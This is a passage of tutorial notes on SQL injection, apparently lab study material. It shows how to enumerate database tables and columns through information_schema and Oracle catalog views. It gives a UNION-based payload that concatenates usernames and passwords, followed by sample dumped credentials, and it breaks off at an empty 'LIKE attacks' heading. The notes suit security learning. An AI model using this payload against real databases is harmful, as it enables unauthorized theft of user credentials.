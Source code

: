 - query `information_schema.columns` to list the columns in individual tables:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

This returns output like the following:
```
| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | TABLE_TYPE |
| ------------- | ------------ | ---------- | ----------- | ---------- |
| MyDatabase    | dbo          | Users      | UserId      | int        |
| MyDatabase    | dbo          | Users      | Username    | varchar    |
| MyDatabase    | dbo          | Users      | Password    | varchar    |
```

---

#### Equivalent to information schema on Oracle
- list tables by querying all_tables:
  - `SELECT * FROM all_tables`

- list columns by querying all_tab_columns:
  - `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

---

#### Retrieving multiple values within a single column

- instead that the query only returns a single column.
- can easily retrieve multiple values together within this single column by concatenating the values together,
- ideally including a suitable separator to let you distinguish the combined values.
- For example
  - on Oracle you could submit the input:
  - `' UNION SELECT username || '~' || password FROM users--`
  - the double-pipe sequence `||`: a string concatenation operator on Oracle.
  - The injected query concatenates together the values of the `username` and `password` fields, separated by the `~` character.

The results from the query will let you read all of the usernames and passwords, for example:

```bash
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```


---



### SQL injection - `LIKE` attacks

The use of `LIKE` clause, another method of SQL injection

Example:
